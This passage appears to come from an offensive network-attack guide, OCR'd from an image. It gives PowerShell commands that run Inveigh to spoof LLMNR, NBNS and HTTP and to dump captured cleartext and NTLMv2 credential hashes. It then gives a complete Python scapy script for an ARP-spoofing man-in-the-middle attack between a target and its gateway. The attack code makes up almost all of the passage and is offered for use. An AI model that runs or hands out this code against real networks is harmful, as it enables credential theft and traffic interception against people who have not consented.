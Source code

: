 #### Inveigh - PowerShell LLMNR/NBNS Spoofer
```powershell
# Import Inveigh
Import-Module .\Inveigh.ps1

# Start spoofing
Invoke-Inveigh -ConsoleOutput Y -LLMNR Y -NBNS Y -HTTP Y -FileOutput Y

# View captured hashes
Get-Inveigh CleartextLog
Get-Inveigh NTLMv2Log
```

### 3.2 ARP Spoofing & MitM

```python
from scapy.all import *
import time

def arp_spoof(target_ip, gateway_ip, interface):
    """Perform ARP spoofing attack"""
    
    # Get MAC addresses
    target_mac = getmacbyip(target_ip)
    gateway_mac = getmacbyip(gateway_ip)
    
    print(f"[*] Starting ARP spoofing: {target_ip} <-> {gateway_ip}")
    
    try:
        while True:
            # Tell target that we are the gateway
            send(ARP(op=2, pdst=target_ip, hwdst=target_mac,
                    psrc=gateway_ip), verbose=False)
            
            # Tell gateway that we are the target
            send(ARP(op=2, pdst=gateway_ip, hwdst=gateway_mac,
                    psrc=target_ip), verbose=False)
            
            time.sleep(2)
            
    except KeyboardInterrupt:
        print("[*] Restoring ARP tables...")
        restore_arp(target_ip, gateway_ip, target_mac, gateway_mac)

def restore_arp(target_ip, gateway_ip, target_mac, gateway_mac):
    """Restore original ARP tables"""
    send(ARP(op=2, pdst=target_ip, hwdst=target_mac,
            psrc=gateway_ip, hwsrc=gateway_mac), count=5, verbose=False)
    send(ARP(op=2, pdst=gateway_ip, hwdst=gateway_mac,
            psrc=target_ip, hwsrc=target_mac), count=5, verbose=False)
```
